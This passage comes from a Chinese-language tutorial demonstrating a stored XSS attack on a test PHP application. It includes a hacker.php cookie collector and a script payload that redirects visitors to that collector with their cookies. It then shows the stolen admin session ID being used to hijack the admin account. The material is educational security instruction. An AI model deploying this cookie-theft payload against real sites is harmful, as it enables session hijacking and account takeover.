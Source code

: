 ##### hacker.php
```
<?php
$cookie = $_GET['cookie'];

file_put_contents("cookie.txt", $cookie);

?>
```


#### 演示

#### 利用普通用户登陆系统
此处，使用`luna`,密码`123456`。这里的用户是任意一个普通用户的。
![存储型XSS攻击测试文件目录结构](/public/img/images/2016/10/xss_attack_test5_login.png)

#### 输入XSS攻击代码
进入修改昵称界面，输入`XSS`攻击代码。此处输入的XSS代码，是根据以上文件的漏洞而写的。实际应用中，可能需要各种手段去处理，但是不再本文范围之内，就不多讨论了。
`<script>window.onload = function(){ window.location.href = "hacker.php?cookie=" + document.cookie; }</script>`

点击提交，发觉数据库内容已经更改，xss攻击已经存储进数据库
![存储型XSS攻击存储数据](/public/img/images/2016/10/xss_attack_test5_msyqldata.png)

#### 等待用户上钩
当用户进入`list.php`，会自动跳转到预先写好的**收集**界面。  
这里，如果是`admin`用户来使用系统，就可以获取其重要信息。
![存储型XSS攻击管理员登陆](/public/img/images/2016/10/xss_attack_test5_adminlogin.png)

登陆系统，直接跳转至收集页面
![存储型XSS攻击管理员登陆](/public/img/images/2016/10/xss_attack_test5_admin_redirection.png)

#### 利用收集的信息操作
查看`cookie.txt`文件，发觉已经收集到相关信息:  
`PHPSESSID=ruolpn1lt58j6es7smrnbeu217`

于是，修改`cookie`,我们目前就是`admin`的身份。
![存储型XSS攻击修改cookie](/public/img/images/2016/10/xss_attack_test5_changecookie.png)

尝试修改自己的昵称
![存储型XSS攻击修改管理员昵称](/public/img/images/2016/10/xss_attack_test5_luna_xss.png)

结果很不客气的修改了管理员的昵称
![存储型XSS攻击修改管理员昵称结果](/public/img/images/2016/10/xss_attack_test5_luna_xss_result.png)

### 总结
这一小节，主要举例存储型XSS攻击。这一类攻击，如我们演示的，可能会对系统造成很大的灾难。下一篇，就介绍一下如何防止XSS攻击


## 相关资料

### xss相关资料
[xss相关攻击代码整理](https://github.com/jackmasa/XSS.png.git)